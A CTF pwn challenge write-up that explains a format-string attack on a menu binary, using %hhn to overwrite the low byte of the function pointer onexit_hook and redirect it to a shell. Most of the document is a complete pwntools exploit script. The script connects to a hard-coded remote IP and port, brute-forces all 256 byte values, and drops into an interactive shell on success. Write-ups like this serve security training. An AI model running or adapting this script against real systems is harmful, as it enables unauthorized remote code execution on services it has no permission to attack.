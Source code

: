 # Writeup -- Exploiting onexit_hook with Format String (CTF Pwn Challenge)

## 1. Challenge Overview

The remote binary provides a simple menu:

1.  **leak** -- prints the addresses of `onexit_hook` and `main`.
2.  **write** -- lets the player input a format string, which is passed
    to `printf(fmt, &onexit_hook)`.
3.  **go** -- calls `onexit_hook`.
4.  **quit**.

Key behavior: - The first time you call **go**, the program sets
`onexit_hook = safe`. - After that, you can use **write** with a format
string to overwrite bytes at the address of `onexit_hook`. - The next
**go** will actually call whatever `onexit_hook` points to.

Goal: redirect `onexit_hook` so that instead of calling `safe()`, it
executes a shell (e.g. `system("/bin/sh")` or a suitable gadget).

------------------------------------------------------------------------

## 2. Exploitation Idea

-   The only practical primitive here is `%hhn`, which writes **one
    byte**.
-   Writing a full address is impossible --- but we only need to modify
    the **least significant byte (LSB)** of `onexit_hook`.
-   If the LSB happens to align with a gadget or `system()`, we can
    hijack control flow.
-   Therefore, the approach is to brute-force all 256 possible LSB
    values until one of them gives a working shell.

------------------------------------------------------------------------

## 3. Exploit Script

Here's the Python exploit using pwntools:

``` python
#!/usr/bin/env python3
from pwn import *

HOST = "8.216.34.114"
PORT = 18882
context.log_level = "info"

def run_try(lsb):
    r = remote(HOST, PORT)

    # 1) go() -> init onexit_hook = safe
    r.recvuntil(b"> ")
    r.sendline(b"3")
    r.recvuntil(b"bye")

    # 2) leak() -> debug info
    r.recvuntil(b"> ")
    r.sendline(b"1")
    leak_line = r.recvlineS().strip()
    log.debug(leak_line)

    # 3) write() -> overwrite LSB of onexit_hook
    r.recvuntil(b"> ")
    r.sendline(b"2")
    fmt = b"A" * lsb + b"%1$hhn"
    r.send(fmt + b"\n")

    # 4) go() -> trigger onexit_hook
    r.recvuntil(b"> ")
    r.sendline(b"3")

    # 5) check if we got a shell
    try:
        r.sendline(b"echo PWNED")
        out = r.recvline(timeout=0.5)
        if out and b"PWNED" in out:
            log.success(f"Got shell with LSB={lsb:#x}")
            r.interactive()
            return True
    except EOFError:
        pass

    r.close()
    return False

def main():
    for lsb in range(256):
        log.info(f"Trying LSB={lsb:#x}")
        if run_try(lsb):
            return
    log.failure("No valid LSB found!")

if __name__ == "__main__":
    main()
```
